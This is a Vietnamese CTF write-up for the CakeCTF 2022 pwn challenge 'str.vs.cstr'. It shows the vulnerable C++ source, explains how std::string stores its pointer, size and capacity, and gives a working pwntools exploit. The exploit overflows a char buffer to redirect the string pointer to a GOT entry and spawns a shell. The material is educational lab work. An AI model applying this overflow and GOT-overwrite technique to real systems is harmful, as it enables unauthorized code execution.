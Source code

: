 # 🎂str.vs.cstr (Pwn)

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption><p>Cheksec </p></figcaption></figure>

Bài này đã đưa sẵn mã nguồn để ta phân tích

{% code title="main.cpp" lineNumbers="true" %}
```c
#include <array>
#include <iostream>

struct Test {
  Test() { std::fill(_c_str, _c_str + 0x20, 0); }
  char* c_str() { return _c_str; }
  std::string& str() { return _str; }

private:
  __attribute__((used))
  void call_me() {
    std::system("/bin/sh");
  }

  char _c_str[0x20];
  std::string _str;
};

int main() {
  Test test;

  std::setbuf(stdin, NULL);
  std::setbuf(stdout, NULL);

  std::cout << "1. set c_str" << std::endl
            << "2. get c_str" << std::endl
            << "3. set str" << std::endl
            << "4. get str" << std::endl;

  while (std::cin.good()) {
    int choice = 0;
    std::cout << "choice: ";
    std::cin >> choice;

    switch (choice) {
      case 1: // set c_str
        std::cout << "c_str: ";
        std::cin >> test.c_str();
        break;

      case 2: // get c_str
        std::cout << "c_str: " << test.c_str() << std::endl;
        break;

      case 3: // set str
        std::cout << "str: ";
        std::cin >> test.str();
        break;

      case 4: // get str
        std::cout << "str: " << test.str() << std::endl;
        break;

      default: // otherwise exit
        std::cout << "bye!" << std::endl;
        return 0;
    }
  }
  
  return 1;
}

```
{% endcode %}

Bài này khá dễ =]].  Nhìn qua ta thấy chỉ cần ghi đè \_str thành một địa chỉ nào đó( buffer overflow ở case 1 ) rồi ghi giá trị ở case 3.

<figure><img src="../../.gitbook/assets/2022-09-06-211409_402x203_scrot (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2022-09-06-211449_1870x944_scrot (1).png" alt=""><figcaption><p>ở đây mình ghi đè thành 0x4242424242424242 nên bị seg fault.</p></figcaption></figure>

Nhưng khoan, rút cuộc C++ string hoạt động như thế nào ? Sao lại chỉ cần ghi đè mỗi 8 byte đầu là được :thinking:

Sau nhiều lần search google và debug mình thấy...

<figure><img src="../../.gitbook/assets/2022-09-06-213404_666x524_scrot.png" alt=""><figcaption></figcaption></figure>

... 8 byte đầu sẽ là con trỏ đến mảng kí tự, 8 byte sau là size, 8 byte tiếp nữa là capacity ( đọc qua có vẻ là kích thước được cấp phát).

&#x20;Tiếp tục vào vấn đề, giờ mình sẽ chọn ghi đè char\_ostream\_got trỏ về call\_me.

{% code title="solve.py" lineNumbers="true" %}
```python
from pwn import *
from time import sleep
offset=0x20
call_me=0x00000000004016de
char_ostream_got=0x404048
e=ELF("./chall")
p=remote("pwn1.2022.cakectf.com",9003)
p.sendline(b"1")
sleep(1)
p.sendline(b"A"*offset+p64(char_ostream_got))
sleep(1)
p.sendline(b"3")
sleep(1)
p.sendline(p64(call_me))
p.interactive()

```
{% endcode %}

<figure><img src="../../.gitbook/assets/2022-09-06-214126_690x417_scrot.png" alt=""><figcaption></figcaption></figure>

Flag `CakeCTF{HW1: Remove "call_me" and solve it / HW2: Set PIE+RELRO and solve it}`

Hmm, có lẽ lúc nào đó mình sẽ thử làm như flag này nói :thinking:.

Vài trang để tìm hiểu về C++ string:

{% embed url="https://gcc.gnu.org/onlinedocs/gcc-12.2.0/libstdc++/api/a05666.html" %}

{% embed url="https://medium.com/obscure-system/understanding-storage-of-strings-in-c-part-1-stack-or-heap-98b15cded7ce" %}
